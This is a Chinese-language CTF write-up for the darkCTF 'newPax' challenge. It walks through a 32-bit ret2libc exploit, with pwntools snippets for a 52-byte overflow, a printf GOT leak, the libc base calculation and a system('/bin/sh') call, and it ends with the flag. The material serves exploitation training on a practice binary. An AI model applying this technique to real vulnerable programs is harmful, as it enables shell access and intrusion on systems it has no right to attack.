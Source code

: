 # newPax
跟roprop差不多,也是簡單的ret2lib問題,只是是x86,同樣先看一下security:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
PIE沒開,表示我們可以找到正確的address跟plt.got table.


稍微disas 看一下發現沒有什麼可以直接用的function,再看一下plt table,這一次沒有puts@plt,但是還有printf,我們同樣可以利用printf function來leak libc address,然後算出base address,再得到system的address.

我們要進行兩次overflow,第一次利用printf function印出printf在got table的address,得到libc這次執行的address,由於每次執行base address都不一樣,所以我們要跳回到main的起點再運行一次程式，這樣base address仍會一樣.

第一次的payload:
```
...
align_gadget = 0x080483ba # ret;
# align
payload = b'A'*52 + p32(plt_printf) + p32(main) + p32(got_printf)  
...
```
透過ghidra或是gdb可以得到overflow的offset是52 bytes,由於x86沒有stack alignment的問題,所以直接呼叫printf function印出printf在got table上記錄的address,扣掉printf function在libc中的offset就能得到base address,再加上system的offset就是system的address.

透過以下code得到base address跟system function address:
```
...
libc_printf = proc.recvline()
# leak base address
libc_printf = u32(libc_printf[:-1].ljust(4, b'\x00')[0:4])
libc_base = libc_printf - libc.symbols['printf'] 
libc_system = libc_base + libc.symbols['system']
libc_binsh = libc_base + libc.search('/bin/sh').next()
...
```
再進行第二次的overflow,這一次只要利用之前得到的system function address呼叫system("/bin/sh"),就可以得到command line.
```
...
payload = b'A'*52 + p32(libc_system) + b'aaaa' + p32(libc_binsh)
...
```
執行exploit.py得到flag:
```
darkCTF{f1n4lly_y0u_r3s0lv3_7h1s_w17h_dlr3s0lv3}
```
